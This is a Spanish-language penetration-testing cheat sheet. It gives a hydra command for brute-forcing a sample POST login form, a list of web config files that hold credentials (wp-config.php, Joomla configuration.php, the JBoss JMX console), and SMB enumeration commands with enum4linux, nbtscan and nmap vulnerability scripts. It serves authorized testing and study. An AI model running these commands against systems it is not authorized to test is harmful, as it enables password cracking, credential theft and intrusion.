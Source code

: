 **Crackear peticiones POST**  
*Ejemplo de formulario WEB a crackear*  

{% highlight html %}
<form action=”index.php” method=”POST”>
  <input type=”text” name=”name” /><br><br>
  <input type=”password” name=”pwd” /><br><br>
  <input type=”submit” name=”sub” value=”submit”>
</form>
{% endhighlight %}     

Commando para Cracking de formularios POST：  
{% highlight markdown %}
hydra -l admin -P pass.lst -o ok.lst -t 1 -f 127.0.0.1 http-post-form “index.php:name=^USER^&pwd=^PASS^ <title>invalido</title>”
{% endhighlight %}   

**Herramientas Utiles**  
Burpsuite

**Archivos de configuracion relacionados a sitios web**  
  - Examinar httpd.conf/  
  - JBoss
    - JMX Console http://<IP>:8080/jmxconcole/
      - War File  
  - Joomla
    - configuration.php
    - diagnostics.php
    - joomla.inc.php
    - config.inc.php  
  - Mambo
    - configuration.php
    - config.inc.php  
  - Wordpress
    - setup-config.php
    - wp-config.php

## Enumerando SMB

{% highlight markdown %}
enum4linux –a 10.0.0.1
{% endhighlight %}     

Para Descubrir servidores SAMBA de Windows en la subred, encuentrar las direcciones MAC de Windows, el nombre de netbios y descubrimiento del grupo de trabajo y dominio del cliente  

{% highlight markdown %}
nbtscan x.x.x.x
{% endhighlight %}     

**Escaneo con Nmap y ejecucion de Scripts relacionados.**  

{% highlight markdown %}
nmap IPADDR --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse
{% endhighlight %}     
